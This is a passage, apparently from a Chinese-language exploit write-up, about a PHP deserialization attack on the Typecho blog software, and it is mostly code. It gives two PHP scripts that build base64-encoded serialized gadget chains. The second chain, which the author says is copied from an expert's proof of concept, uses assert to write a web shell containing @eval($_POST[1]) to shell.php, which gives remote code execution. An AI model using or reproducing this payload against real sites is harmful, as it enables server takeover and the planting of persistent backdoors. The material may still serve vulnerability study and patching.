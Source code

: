```
    }
}

$x = new Typecho_Feed();
$a = array(
    'host' => 'localhost',
    'user' => 'xxxxxx',
    'charset' => 'utf8',
    'port' => '3306',
    'database' => 'typecho',
    'adapter' => $x,
    'prefix' => 'typecho_'
);
echo urlencode(base64_encode(serialize($a)));
?>
```

其实可以不用这么做,他虽然返回了500,但是程序已经是执行了,我们可以getshell

我这里就直接搬运大佬的poc了

```
<?php
class Typecho_Request
{
    private $_filter = array();
    private $_params = array();
    public function __construct(){
        $this->_filter[0] = 'assert';
        $this->_params['screenName'] = 'file_put_contents("shell.php", "<?php @eval(\$_POST[1]); ?>")';
    }
}
class Typecho_Feed
{
    const RSS2 = 'RSS 2.0';
    private $_type;
    private $_items = array();
    public function __construct(){
        $this->_type = self::RSS2;
        $this->_items[0] = array(
            'author' => new Typecho_Request(),
        );
    }
}
$final = new Typecho_Feed();
$poc = array(
    'adapter' => $final,
    'prefix' => 'typecho_'
);
echo urlencode(base64_encode(serialize($poc)));
?>

```
